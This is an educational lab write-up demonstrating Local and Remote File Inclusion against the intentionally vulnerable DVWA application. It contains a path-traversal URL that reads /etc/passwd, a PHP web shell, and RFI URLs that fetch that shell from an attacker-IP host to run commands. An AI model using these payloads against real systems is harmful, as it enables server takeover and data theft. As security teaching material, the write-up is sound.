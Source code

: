 # Experiment 9: Demonstrating File Inclusion Vulnerabilities (LFI/RFI)

**Aim:** To understand and demonstrate how File Inclusion vulnerabilities can be exploited to read sensitive files from a web server and, in some cases, achieve Remote Code Execution.

---

### 1. Theory

**File Inclusion** vulnerabilities are a type of web application flaw that allows an attacker to control which files are loaded or executed by the server. These vulnerabilities are particularly common in PHP-based applications that use user-supplied input (like URL parameters) to construct file paths for `include()` or `require()` statements without proper sanitization.

There are two primary types of File Inclusion attacks:

- **Local File Inclusion (LFI):** This attack allows an unauthorized user to include files that are already present on the server. By manipulating the input parameter, often using **Path Traversal** sequences (`../`), an attacker can navigate the server's file system and access files outside of the web root directory. This can lead to the disclosure of sensitive information, such as configuration files, source code, or system user lists (`/etc/passwd`).

- **Remote File Inclusion (RFI):** This is a more severe vulnerability that allows an attacker to include and execute files from a remote, attacker-controlled server. If an application is vulnerable to RFI, an attacker can host a malicious script (e.g., a web shell) on their own server and force the target application to fetch and execute it. A successful RFI attack almost always leads to full Remote Code Execution (RCE) on the server, giving the attacker complete control. This vulnerability typically requires insecure server configurations (e.g., `allow_url_include` enabled in PHP).

---

### 2. Requirements

- **Vulnerable Application:** Damn Vulnerable Web Application (DVWA).
- **Web Browser:** A modern browser with developer tools.
- **Local Server Environment:** A local server stack (like XAMPP or Docker) to host DVWA.
- **(For RFI):** A simple local web server (e.g., Python's `http.server`) and a basic PHP web shell script.

---

### 3. Disclaimer

> **⚠️ Educational Use Only:** File inclusion attacks can cause significant damage to a web server. This experiment must only be performed in a controlled, isolated lab environment on applications you own or have explicit permission to test. Unauthorized attacks are illegal and unethical.

---

### 4. Procedure

This procedure uses **Damn Vulnerable Web Application (DVWA)** with the security level set to **Low**.

#### Part A: Local File Inclusion (LFI)

1.  **Setup and Navigate:**

    - Log in to your local DVWA instance.
    - Navigate to the **File Inclusion** page.

2.  **Identify the Vulnerable Parameter:**

    - Observe the URL. It will look something like `.../vulnerabilities/fi/?page=include.php`. The `page` parameter is being used to include different files. Clicking the other file links (`file1.php`, `file2.php`) confirms this. This parameter is our injection point.

3.  **Exploit LFI with Path Traversal:**
    - The goal is to read the `/etc/passwd` file, which contains a list of users on the Linux server.
    - To do this, we need to traverse out of the current web directory (`/var/www/html/vulnerabilities/fi/`) to the root directory and then navigate to `/etc/passwd`.
    - Modify the URL in your browser's address bar to the following payload:
      ```
      http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=../../../../etc/passwd
      ```
    - Press Enter. The contents of the server's `/etc/passwd` file will be displayed on the web page, confirming the LFI vulnerability.

#### Part B: Remote File Inclusion (RFI)

**Note:** This part requires an insecure server configuration. For educational purposes, you may need to edit your server's `php.ini` file to set `allow_url_include = On` and then restart the web server. This is **not** recommended for production environments.

1.  **Create a Malicious File (Web Shell):**

    - On your attacker machine (this can be your host machine), create a file named `shell.php`.
    - Add the following simple PHP code to it. This script will execute any command passed to it via the `cmd` URL parameter.
      ```php
      <?php
        if (isset($_REQUEST['cmd'])) {
          echo "<pre>";
          system($_REQUEST['cmd']);
          echo "</pre>";
        }
      ?>
      ```

2.  **Host the Malicious File:**

    - Open a terminal in the same directory where you saved `shell.php`.
    - Start a simple Python web server to host the file on your local network:
      ```bash
      python3 -m http.server 8000
      ```
    - Note your attacker machine's IP address (e.g., using `ifconfig` or `ip a`).

3.  **Exploit RFI:**

    - Go back to the DVWA File Inclusion page in your browser.
    - Modify the URL to make the DVWA server include and execute your remote `shell.php` file. Replace `<ATTACKER-IP>` with your machine's IP address.
      ```
      http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=http://<ATTACKER-IP>:8000/shell.php
      ```
    - Press Enter. The page may appear blank, but your shell has been loaded and executed by the server.

4.  **Execute Commands on the Server:**
    - Now, use the loaded shell to run commands on the DVWA server by adding the `&cmd=` parameter to the URL.
    - To find out which user the web server is running as:
      ```
      http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=http://<ATTACKER-IP>:8000/shell.php&cmd=whoami
      ```
    - To get a directory listing:
      ```
      http://<YOUR-DVWA-IP>/vulnerabilities/fi/?page=http://<ATTACKER-IP>:8000/shell.php&cmd=ls -la
      ```
    - The command output will be displayed directly on the page, confirming you have achieved Remote Code Execution.

---

### 5. Conclusion

This experiment successfully demonstrated how file inclusion vulnerabilities can be exploited to achieve both sensitive information disclosure (via LFI) and complete server compromise (via RFI). The root cause is trusting user-supplied input in file operations. The key mitigation strategies are to **never use user input directly in file paths** and to implement a strict **allow-list** of files that are permitted to be included. Furthermore, maintaining a hardened server configuration, such as disabling `allow_url_include`, is crucial for preventing RFI.
